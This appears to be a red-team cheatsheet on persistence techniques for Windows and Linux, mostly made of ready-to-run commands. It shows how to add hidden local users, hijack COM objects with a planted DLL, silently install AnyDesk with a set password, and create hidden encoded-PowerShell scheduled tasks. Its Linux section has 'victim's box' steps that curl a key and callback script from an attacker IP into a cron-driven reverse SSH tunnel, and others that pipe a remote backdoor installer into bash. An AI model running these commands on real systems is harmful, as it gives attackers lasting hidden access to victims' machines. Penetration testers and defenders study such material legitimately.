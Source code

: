 # Persistence

* [https://xakep.ru/2021/03/03/persistence-cheatsheet/](https://xakep.ru/2021/03/03/persistence-cheatsheet/)




## Windows

- [https://persistence-info.github.io/](https://persistence-info.github.io/)



### Scheduled Tasks

- [https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles](https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles)



### Hidden Local User


#### Dollar Sign

* [https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/](https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/)

```
Cmd > net user snovvcrash$ Passw0rd! /add
```


#### SpecialAccounts

```
PS > New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name SpecialAccounts
PS > New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\" -Name snovvcrash -PropertyType DWord -Value 0 -Force
```



### COM Hijacking

Locate good targets to hijack with Procmon filters:

- *Operation* is **RegOpenKey**
- *Result* is **NAME NOT FOUND**
- *Path* is **InprocServer32** (in-process server allowing the specified DLL to be loaded into current process memory space)

Locate CLSIDs from scheduled tasks:

{% code title="schtask.ps1" %}
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
{% endcode %}

Check if a COM component exists under a relevant registry hive by its CLSID:

```
PS > Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
PS > Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
```

If it exists under `HKLM` but does **not** exists under `HKCU` hive, we can hijack this COM component by creating a new item in the latter path:

```
PS > New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > New-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -Name "InprocServer32" -Value "C:\Windows\Tasks\evil.dll"
PS > New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32" -Name "ThreadingModel" -Value "Both"
PS > Get-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32"
```



### RID Hijacking

- [https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html](https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html)
- [https://github.com/r4wd3r/RID-Hijacking](https://github.com/r4wd3r/RID-Hijacking)



### .LNK Shortcuts

- [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)



### AnyDesk

- [https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface](https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface)
- [https://support.anydesk.com/knowledge/command-line-interface-for-windows](https://support.anydesk.com/knowledge/command-line-interface-for-windows)

```
Cmd > bitsadmin /transfer job1 https://download.anydesk.com/AnyDesk-CM.exe C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe --install C:\Users\snovvcrash\AppData\Local\AnyDesk --start-with-win --silent
Cmd > del C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > echo Passw0rd! | C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --set-password
Cmd > cmd /c "for /f ""delims="" %i in ('C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i"
Cmd > C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --remove
```



### Tools


#### SharPersist

- [https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist)

```
beacon> execute-assembly SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64_CMD>" -n "Updater" -m add -o hourly
beacon> execute-assembly SharPersist.exe -t startupfolder -f "UserEnvSetup" -m add
beacon> execute-assembly SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```




## Linux



### SSH Tunnel in Crontab

{% code title="callback.sh" %}
```bash
#!/bin/bash
if [[ `ps -ef | grep -c 2222` -eq 1 ]]; then
  /usr/bin/ssh -nNT -R 2222:localhost:22 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i /home/alice/.ssh/.k nopty@10.10.13.37
fi
```
{% endcode %}

Attacker's box:

```
$ sudo useradd -ms /bin/false nopty
$ sudo ssh-keygen -f /home/nopty/.ssh/dummy_key -t ed25519 -q -N ""
$ cat /home/nopty/.ssh/dummy_key.pub
$ sudo vi /home/nopty/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Victim's box:

```
$ curl 10.10.13.37/dummy_key > /home/alice/.ssh/.k
$ chmod 600 /home/alice/.ssh/.k
$ curl 10.10.13.37/callback.sh > /home/alice/.conf
$ chmod +x /home/alice/.conf
$ crontab -e
*/15 * * * * /home/alice/.conf
```



### Global Socket

* [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)


#### Install

Victim's box:

```
$ bash -c "$(curl -fsSL gsocket.io/x)"
$ bash -c "$(wget -qO- gsocket.io/x)"
```


#### Connect

Attacker's box:

```
$ cd ~/tools && bash -c "$(curl -fsSL https://tiny.cc/gsinst)" && cd
$ ~/tools/gsocket/tools/gs-netcat -s "<SECRET>" -i
```


#### Cleanup

Victim's box:

```
$ GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
$ GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"

$ pkill gs-bd
```



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)
